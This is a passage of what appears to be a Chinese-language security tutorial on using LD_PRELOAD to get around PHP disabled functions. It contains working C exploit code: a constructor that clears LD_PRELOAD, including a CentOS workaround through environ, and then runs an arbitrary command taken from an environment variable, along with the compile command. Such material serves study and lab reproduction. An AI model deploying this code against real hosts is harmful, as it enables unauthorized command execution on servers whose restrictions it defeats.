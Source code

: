 #### [](#322-%E5%88%A9%E7%94%A8-1)3.2.2 利用

简单的 exp：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <unistd.h><br>#include <sys/types.h><br><br>__attribute__ ((__constructor__)) void preload (void){<br>    unsetenv("LD_PRELOAD");<br>    system("whoami > /tmp/leon");<br>}<br>``` |

但是`unsetenv()`在 Centos 上无效，因为 Centos 自己也 hook 了 `unsetenv()`，在其内部启动了其他进程，来不及删除 `LD_PRELOAD` 就又被劫持，导致无限循环，可以使用全局变量 `extern char** environ`删除，实际上，`unsetenv()` 就是对 environ 的简单封装实现的环境变量删除功能。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```c<br>#define _GNU_SOURCE<br>#include <stdlib.h><br>#include <stdio.h><br>#include <string.h><br><br>extern char** environ;<br>__attribute__ ((__constructor__)) void preload (void)<br>{<br>    // get command line options and arg<br>    const char* cmdline = getenv("EVIL_CMDLINE");<br>    // unset environment variable LD_PRELOAD.<br>    // unsetenv("LD_PRELOAD") no effect on some <br>    // distribution (e.g., centos), I need crafty trick.<br>    int i;<br>    for (i = 0; environ[i]; ++i) {<br>            if (strstr(environ[i], "LD_PRELOAD")) {<br>                    environ[i][0] = '\0';<br>            }<br>    }<br>    // executive command<br>    system(cmdline);<br>}<br>``` |

使用 for 循环修改 `LD_PRELOAD` 的首个字符改成 `\0`，`\0` 是 C 语言字符串结束标记，这样可以让系统原有的 `LD_PRELOAD` 环境变量自动失效。

编译：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>gcc -c -fPIC exp.c -o hack && gcc --share hack -o exp.so<br>``` |

详情可见：[bypass\_disablefunc\_via\_LD\_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)。

在 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 有相关环境，复现该漏洞。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312125514.png-water_print](assets/1699410109-edf30ee2ff7e3573ea2577997c179a32.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312125514.png-water_print")
